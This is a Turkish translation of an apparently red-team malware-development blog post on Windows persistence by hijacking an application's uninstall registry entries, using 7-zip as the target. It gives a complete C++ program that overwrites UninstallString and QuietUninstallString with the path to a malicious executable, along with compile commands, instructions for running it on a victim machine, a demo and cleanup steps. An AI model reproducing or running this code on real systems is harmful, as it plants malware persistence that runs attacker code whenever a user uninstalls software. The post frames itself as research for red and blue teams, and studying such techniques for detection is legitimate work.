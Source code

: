 \newpage
\subsection{79. kötü amaçlı yazılım geliştirme: kalıcılık - bölüm 13. Bir uygulamanın kaldırma mantığını ele geçirme. Basit C++ örneği.}

﷽

![pers](./images/73/2022-10-04_21-03_1.png){width="80%"}    

Bu gönderi, hedef uygulamanın kaldırma dosyasını ele geçirerek kötü amaçlı yazılım kalıcılığı sağlama konusunda kendi araştırmalarımın bir sonucudur.     

### kaldırma süreci (uninstallation)

Windows sistemine bir program yüklediğinizde, genellikle kendi kaldırıcılarına yönlendirilirler. Bunlar şu kayıt defteri anahtarlarında bulunur:    

`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\<application name>`    

ve   

`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\QuietUninstallString\<application name>`     

Peki, numara nedir? Bunları, başka herhangi bir programı çalıştırabilecek komutlarla değiştirmekte bir sakınca yoktur. Bir kullanıcı kaldırıcıyı çalıştırdığında, saldırganın seçtiği komut çalıştırılır. Yine de iyi haber şu ki, bu öğeleri değiştirmek için ayrıcalıklar gereklidir, çünkü `HKLM` anahtarı altında yer alırlar.     

### pratik örnek

Hadi pratik bir örneğe bakalım. Öncelikle, bir hedef uygulama seçelim. Ben `7-zip x64`'ü seçtim:    

![pers](./images/73/2022-10-04_20-13_1.png){width="80%"}    

![pers](./images/73/2022-10-04_20-15.png){width="80%"}    

![pers](./images/73/2022-10-04_20-15_1.png){width="80%"}    

Ardından, doğruluk açısından kayıt defteri anahtar değerlerini kontrol edin:    

```powershell
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\7-zip" /s
```

![pers](./images/73/2022-10-04_20-08.png){width="80%"}    

Ayrıca, kötü amaçlı uygulamamı hazırladım. Her zamanki gibi, `meow-meow` kötü amaçlı yazılımı :)      

![pers](./images/73/2022-10-04_20-10.png){width="80%"}    

Daha sonra, kalıcılık için mantığımı gerçekleştiren bir program oluşturdum (`pers.cpp`):    

```cpp
/*
pers.cpp
windows persistence via
hijacking uninstall app
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/04/malware-pers-13.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // target app
  const char* app = 
  "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Uninstall\\7-zip";

  // evil app
  const char* exe = 
  "C:\\Users\\User\\Documents\\malware\\2022-10-04-malware-pers-13\\hack.exe";

  // app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)app, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry key value
    // reg add 
    //"HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Uninstall\
    // 7-zip" /v "UninstallString" /t REG_SZ /d "...\hack.exe" /f
    RegSetValueEx(hkey, (LPCSTR)"UninstallString", 0, REG_SZ, (unsigned char*)
    exe, strlen(exe));
    RegSetValueEx(hkey, (LPCSTR)"QuietUninstallString", 0, REG_SZ, 
    (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Gördüğünüz gibi mantık basit, sadece kayıt defterindeki hedef anahtar değerlerini güncelliyoruz.    

### demo

Hadi her şeyi aksiyonda görelim. Kötü amaçlı yazılımı ve kalıcılık betiğini derleyin:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/73/2022-10-04_20-09.png){width="80%"}    

Ve bunu kurbanın makinesinde çalıştırın - benim durumumda `Windows 10 x64`:    

```powershell
.\pers.exe
```

![pers](./images/73/2022-10-04_20-59.png){width="80%"}    

Son olarak, sistemimi yeniden başlattıktan sonra `7-zip`'i kaldırmayı denedim:    

![pers](./images/73/2022-10-04_20-13_1.png){width="80%"}    

![pers](./images/73/2022-10-04_20-15.png){width="80%"}    

![pers](./images/73/2022-10-04_21-01.png){width="80%"}    

![pers](./images/73/2022-10-04_21-03.png){width="80%"}    

Ardından Process Hacker 2'de `hack.exe`'nin özelliklerine baktım:    

![pers](./images/73/2022-10-04_21-05.png){width="80%"}    

Gördüğünüz gibi üst işlem `SystemSettings.exe` - Windows ayarlarını açtığınızda gördüğünüz şeydir. Bizim durumumuzda, bu `program ekle/kaldır` kısmıdır. Mükemmel! =^..^=    

Küçük bir sorun var. Anahtarı `Z:\2022-10-04-malware-pers-13\hack.exe` yoluyla güncellemeye çalıştığımda şu hatayı alıyorum:    

![pers](./images/73/2022-10-05_17-37.png){width="80%"}    

Belki de yalnızca `C:\` diski içindeki yolları kullanabilirsiniz.    

Deneylerin sonunda temizleme işlemi yapın:    

```powershell
reg add 
"HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Uninstall\7-zip" 
/v "UninstallString" /t REG_SZ /d "C:\Program Files\7-zip\Uninstall.exe" /f
```

![pers](./images/73/2022-10-05_17-50.png){width="80%"}    

### sonuç

Elbette, belki de bu numara kalıcılık için o kadar da harika değildir, çünkü kullanıcının izinleri ve katılımı gereklidir. Ama neden olmasın?    

Kalıcılık için programları yükleyip kaldırmayı kullanarak bir numara daha var, bunun hakkında gelecekteki gönderilerimden birinde yazacağım. Bu olasılığı kırmızı takım için araştırmaya devam ediyorum.   

Umarım bu gönderi, mavi takım üyelerinin bu ilginç teknik hakkında farkındalığını artırır ve kırmızı takım üyeleri için bir silah ekler.    

[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)      
[github'taki kaynak kod](https://github.com/cocomelonc/meow/tree/master/2022-10-04-malware-pers-13)     
